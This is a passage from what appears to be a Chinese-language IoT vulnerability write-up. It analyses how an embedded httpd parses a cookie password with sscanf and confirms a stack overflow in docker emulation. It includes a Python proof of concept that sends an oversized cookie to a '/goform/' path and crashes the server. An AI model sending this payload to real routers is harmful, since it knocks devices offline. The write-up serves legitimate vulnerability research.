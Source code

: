
```c
// gcc -g test.c -o test
# include <stdio.h>
# include <string.h>
int main(){
    char* str = "username=cyberangel;passwd=IoT;whoami=root";
    char result[100] = "";
    char* p = "";
    p = strstr(str, "passwd=");
    printf("strstr() result is %s\n", p);
	sscanf(p, "%*[^=]=%[^;];*", result);
	printf("Regular Expression is %s\n", result);
	return 0;
}
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1658794756335-3537d4c1-e894-40ec-bbd1-47abf874ca56.png)

---

解析后的结果为cookie的passwd。为了让fuzzer能fuzz到崩溃点，poc要满足以下条件：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1658801925487-9d205eee-ebdb-4471-8de5-ddba0112e9bb.png)

很简单，只需要让我们的请求中包含"/goform/xxx"就可以靠近漏洞点（注意strncmp的返回值，相同为假）。那我们就拿`/goform/cyberangel`来测试吧，在**docker**中验证是否能够栈溢出：

```python
import requests
import socket
import socks
import http
socks.set_default_proxy(socks.SOCKS5, "127.0.0.1", 2345)		# socket代理
socket.socket = socks.socksocket

def main():
    url = "http://192.168.2.2/goform/cyberangel"
    try:
        cookie = {"Cookie":"password=" + "A"*501}
        res = requests.get(url=url,cookies=cookie)
        print(res.text)
    except:
        print("overflow!")

if __name__ == '__main__':
      main()
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1658819620276-fc42335a-0c76-43df-aa4a-a6515893764c.png)

由于httpd崩溃（DOS攻击）导致触发python异常：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1658820087575-08438bc6-23c7-42aa-8a9f-9002e973cf60.png)
